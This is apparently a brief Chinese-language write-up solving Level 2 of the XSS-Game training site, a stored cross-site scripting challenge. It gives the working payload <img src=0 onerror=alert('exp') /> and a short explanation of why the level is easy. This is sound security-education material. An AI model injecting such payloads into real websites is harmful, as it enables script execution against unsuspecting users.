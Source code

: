## [[XSS-Game](https://xss-game.appspot.com/)] [[Level-2](https://xss-game.appspot.com/level2)] [[解题报告](http://exp-blog.com/2019/02/15/pid-3333/)]

------

水题，明显是存储型 XSS 。

提交 `<img src=0 />`发现页面直接解析了

直接构造 payload 即可：

`<img src=0 onerror=alert("exp") />`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-2/imgs/01.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
